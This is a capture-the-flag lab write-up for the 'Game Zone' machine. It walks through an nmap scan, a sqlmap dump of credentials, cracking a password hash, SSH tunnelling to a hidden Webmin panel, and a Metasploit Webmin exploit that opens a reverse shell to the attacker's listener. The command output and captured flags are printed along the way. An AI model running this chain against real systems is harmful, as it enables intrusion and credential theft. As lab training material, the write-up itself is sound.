






# Game Zone

IP Address: 10.10.107.166

## Description

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

## Flags

1. 649ac17b1480ac13ef1e4fa579dac95c
2. a4b945830144bdd71908d12d902adeee

## Enumeration/Scanning

### Nmap

Run nmap to determine open ports. 

```sh
$ sudo nmap -sV -vv -sC -oN gamezone.nmap 10.10.107.166

# Nmap 7.92 scan initiated Sun Oct  2 21:29:01 2022 as: nmap -sV -vv -sC -oN gamezone.nmap 10.10.107.166
Nmap scan report for 10.10.107.166
Host is up, received echo-reply ttl 63 (0.19s latency).
Scanned at 2022-10-02 21:29:01 PDT for 19s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFJTi0lKi0G+v4eFQU+P+CBodBOruOQC+3C/nXv0JVeR7yDWH6iRsFsevDofWcq05MZBr/CDPCnluhZzM1psx+5bp1Eiv3ecO0PF1QjhAzsPwUcmFSG1zAg+S757M+RFeRs0Jw0WMev8N6aR3uBZQSDPwBHGps+mZZZRcsssckJGQCZ4Qg/6PVFIwNGx9UoftdMFyfNMU/TDZmoatzo/FNEJOhbR38dF/xw9s/HRhugrUsLdNHyBxYShcY3B0Y2eLjnnuUWhYPmLZqgHuHr+eKnb1Ae3MB5lJTfZf3OmWaqcDVI3wpvQK7ACC9S8nxL3vYLyzxlvucEZHM9ILBI7Ov
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKAU0Orx0zOb8C4AtiV+Q1z2yj1DKw5Z2TA2UTS9Ee1AYJcMtM62+f7vGCgoTNN3eFj3lTvktOt+nMYsipuCxdY=
|   256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL6LScmHgHeP2OMerYFiDsNPqgqFbsL+GsyehB76kldy
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Game Zone
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  2 21:29:20 2022 -- 1 IP address (1 host up) scanned in 19.81 seconds
```

### Web Servers

#### Port 80

`http://http://10.10.107.166/`



## Exploitation
### Inital SQL Injection

To log in to this, we can inject SQL into the login form.



#### SQLMap

We're going to use SQLMap to dump the entire database for GameZone. It can be installed [here](https://github.com/sqlmapproject/sqlmap), though it does come preinstalled on Kali.

Now we need to use Burpsuite to intercept a request made to the server. Navigate to the proxy tab and enable incept, then type a request into the "search for gave review" bar and submit.



Now we have to save this request to a file and run `sqlmap`.

```sh
$ sqlmap -r burpsuite_request.txt --dbms=mysql --dump
```
This outputs a users table with valuable information: a username and password hash.

```
pwd: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
username: agent47
```

#### JohnTheRipper

Now to crack this hash, we need to use the tool [JohnTheRipper](https://github.com/drwetter/JohnTheRipper).

```sh
$ echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" >> hash.txt
```
```sh
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=12
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)     
1g 0:00:00:00 DONE (2022-10-04 21:30) 2.631g/s 7760Kp/s 7760Kc/s 7760KC/s wildboy23..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

Now we have the username and password:

username: `agent47`

password: `videogamer124`

#### Exploit

Now lets SSH'ing into the machine with our credentials.

```sh
$ sudo ssh agent47@10.10.190.138
[sudo] password for andrew: 
The authenticity of host '10.10.190.138 (10.10.190.138)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.190.138' (ED25519) to the list of known hosts.
agent47@10.10.190.138's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 *  * Management:     https://landscape.canonical.com
 *  * Support:        https://ubuntu.com/advantage
* 109 packages can be updated.
* 68 updates are security updates.

Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ 
```

#### Flag

```sh
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## Privilege Escalation

### Enumeration

We will use a tool called `ss` to investigate sockets running on a host. If we run ss -tulpn it will tell us what socket connections are running.

```sh
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q           Local Address:Port                          Peer Address:Port              
udp    UNCONN     0      0                            *:68                                       *:*                  
udp    UNCONN     0      0                            *:10000                                    *:*                  
tcp    LISTEN     0      80                   127.0.0.1:3306                                     *:*                  
tcp    LISTEN     0      128                          *:10000                                    *:*                  
tcp    LISTEN     0      128                          *:22                                       *:*                  
tcp    LISTEN     0      128                         :::80                                      :::*                  
tcp    LISTEN     0      128                         :::22                                      :::* 
```
We can see that a service running on port 10000 is blocked via a firewall. We can expose the port to us locally using `ssh` Tunnel: 

```sh
$ ssh -L 10000:localhost:10000 agent47@10.10.190.138
The authenticity of host '10.10.190.138 (10.10.190.138)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.190.138' (ED25519) to the list of known hosts.
agent47@10.10.190.138's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 *  * Management:     https://landscape.canonical.com
 *  * Support:        https://ubuntu.com/advantage
* 109 packages can be updated.
* 68 updates are security updates.

Last login: Tue Oct  4 23:36:15 2022 from 10.18.57.77
agent47@gamezone:~$ 
```

Now that we are connected, run `http://localhost:10000/` in the browser:



We can login using our credentials:

username: `agent47`

password: `videogamer124`



### Exploitation

We discovered that this system's Content Management System (CMS) is `webmin`, version 1.580. Let's search [Exploit Database](https://www.exploit-db.com/exploits/21851) for a vulnerability.



This is a Metasploit exploit, so lets start `msfconsole` and search for this CVE.

```sh
$ msfconsole
```

```sh
msf6 > search 2012-2982

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
	    ----                                      ---------------  ----       -----  -----------
	    0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
	
	Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/webmin_show_cgi_exec

msf6 > use 0
```
Now set our options.

```sh
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set username agent47
username => agent47

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set password videogamer124
password => videogamer124

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhosts 127.0.0.1
rhosts => 10.10.190.138

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost tun0
lhost => tun0

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lport 4444
lport => 4444

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show payloads

...

9   payload/cmd/unix/reverse_python                              normal  No     Unix Command Shell, Reverse TCP (via Python)
...

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload 5

```
Exploit!

```sh
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.18.57.77:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zkaDsqSssEX7bvuM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "zkaDsqSssEX7bvuM\r\n"
[*] Matching...
[*] B is input...
ls
[*] Command shell session 1 opened (10.18.57.77:4444 -> 10.10.190.138:54354) at 2022-10-04 22:32:04 -0700

pwd
/usr/share/webmin/file/
```

### Flag

```sh
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
```

	 
